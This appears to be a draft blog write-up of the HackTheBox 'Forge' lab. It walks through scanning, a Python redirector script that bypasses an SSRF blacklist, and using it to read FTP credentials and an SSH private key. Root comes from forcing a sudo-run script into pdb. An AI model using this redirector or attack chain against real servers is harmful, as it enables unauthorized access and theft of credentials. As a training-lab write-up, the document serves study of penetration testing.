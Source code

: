 ```yaml
---
title: "HackTheBox - Forge"
date: 2022-07-29T12:26:51-04:00
draft: true
tags: []
author: "Trent Deal"
showToc: true
TocOpen: false
hidemeta: false
comments: false
description: ""
disableHLJS: false
disableShare: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: false
ShowRssButtonInSectionTermList: true
UseHugoToc: false
cover:
    image: "" # image path/url
    alt: "" # alt text
    caption: "" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
---
```


```nohighlight
# Nmap 7.92 scan initiated Wed Jul 27 18:34:26 2022 as: nmap -sS -sCV -oA scans/nmap/init 10.10.11.111
Nmap scan report for 10.10.11.111
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 27 18:34:35 2022 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

- nmap does not follow redirect to http://forge.htb, add it to /etc/hosts and run gobster vhost
    - ftp is also filtered, yay

```nohighlight
trent@kali[Forge]$ cat /etc/hosts
...
10.10.11.111    forge.htb admin.forge.htb
...
```

```nohighlight
trent@kali[Forge]$ gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/27 18:49:01 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]

===============================================================
2022/07/27 18:49:25 Finished
===============================================================
```

![Admin interface only available on localhost](/images/forge/website/admin/only_localhost_allowed.png)

![Homepage for http://forge.htb](/images/forge/website/homepage.png)

- http://forge.htb/upload can be used to upload images by file or url
 
- uploading by url and making it callback to a netcat listener shows the request was made by
  python-requests/2.25.1, so the server is likely running some python web server

![Upload from url](/images/forge/website/upload_from_url.png)
![python-requests version](/images/forge/website/python_requests_callback.png)

- url uploads only accept http/https

![Blacklist protocols](/images/forge/website/forge_htb_blacklisted_url_uploads.png)

- Cant make requests to http://forge.htb or http://admin.forge.htb

![Blacklisted urls](/images/forge/website/forge_htb_blacklisted_url_uploads.png)

- we can get around the blacklist by redirecting to where we actually want to go. We then can
  navigate to the generated link on the website and we can view the raw page in burpsuite

```python
#!/usr/bin/env python3

# https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#bypass-via-redirect
# python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

- We cant see the site in the browser cause it tries to render the page as a jpg, but we can see the
  html in Burpsuite

![Successful ssrf attack](/images/forge/website/admin/homepage_html_via_ssrf_redirect.png)

- we have found some ftp creds, yay
    - user:heightofsecurity123!

![FTP credentials and internal /upload](/images/forge/website/admin/announcements.png)

- making a call to http://admin.forge.htb with the creds shows the ftp files, had to escape the ! in
  the password to make the script work
  
```class="nohighlight"
trent@kali[Forge]$ ./redirect.py "http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123%21@10.10.11.111"
10.10.11.111 - - [28/Jul/2022 17:14:08] "GET / HTTP/1.1" 302 -
```

- running the same script to search for .ssh in ftp shows there is an id_rsa there. Score

![ftp ssh folder](/images/forge/ftp/ssh_folder.png)
![ftp id_rsa](/images/forge/ftp/id_rsa.png)

- we can then login as the "user" user with ssh

![Shell as user](/images/forge/shell_as_user.png)
![User flag](/images/forge/user_get.png)

- running linpeas shows "user" can run "/usr/bin/python3 /opt/remote-manage.py" without a password 

![linpeas sudo -l results](/images/forge/linpeas/sudo_l.png)

```python
# /opt/remote-manage.py

#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

- script runs pdb when it hits an exception, which we can force by sending a lot of characters to
  the socket.
    - To do this, we need to open an ssh session that runs the script, and another that connects to
      it, since it only listens on localhost
    - then we can import os and execute code from there in pdb
    - UPDATE: it actually just needs to be a non number, but 1024 "A" also works

![Shell as root](/images/forge/shell_as_root.png)
![Root flag](/images/forge/root_get.png)

